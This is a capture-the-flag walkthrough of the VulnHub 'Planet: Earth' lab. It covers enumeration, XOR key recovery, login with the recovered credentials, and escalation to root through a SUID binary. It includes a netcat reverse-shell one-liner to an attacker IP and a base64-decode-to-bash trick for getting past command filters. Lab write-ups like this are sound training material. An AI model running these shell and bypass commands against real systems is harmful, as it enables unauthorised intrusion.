# Planet: Earth CTF

[vulnhub_link] (https://www.vulnhub.com/entry/the-planets-earth,755/)

## Ip finding

`fping -aqg 192.168.xxx.0/24`
>    Note: you can use netdiscover

## Nmap scan

| Port | State | Service |
|------|-------|---------|
| 22/tcp | open | ssh |
| 80/tcp | open | http |
| 443/tcp | open | ssl/http |

## Additional Nmap Output

> Name: DNS:earth.local, DNS:terratest.earth.local

Add both of the dns to `/etc/hosts`

## Http server

> the https domain is basically the same except for `https://terratest.earth.local/`



## Enumeration

`gobuster dir -w wordlist.txt -u IP -rx html,php,txt -k`

| Code 200 Output @ http://earth.local |
|--------------------|
| /admin|
| * the same output applied to https://earth.local,
| http://terratest.earth.local |

| Code 200 Output @ https://terratest.earth.local |
|--------------------|
| /admin|
| /robots.txt|
| /index.html |



> there are something in testingnotes, the extention for this are txt




> it could be the key?

## Decrypting the XOR

Tools of choise for this are [cyberchef](https://gchq.github.io/CyberChef/)

> for test the encryption i make a test message and try to decrypt it with my own key





Then i tried to decrypt other message with key that available at `/testdata.txt`

`earthclimatechangebad4humans`

## Known credentials

User : terra
Possible password : earthclimatechangebad4humans

## Log in to /admin with known credentials



## Reverse shell & user flag

first attempt with `nc -e /bin/bash 192.168.xx.xx 4444`


try to encode it with base64 and feed it to cli command

> `echo "your_base_64" | base64 -d | bash



> spawn interactive shell with `python -c 'import pty; pty.spawn("/bin/bash")'`, User flag can be found at `/var/earth_web`

## Getting root access & root flag

running `find / -perm -4000 -type f 2>/dev/null` give this output



can we reset root?



Transfering the reset root to host machine





running ltrace on reset_root



`The target are not present`, so just make it

> `touch /dev/shm/kHgTFI5G`
`touch /dev/shm/Zw7bV9U5`
`touch /tmp/kcM0Wewe`

run reset_root again



login as root



> root flag can be found at /root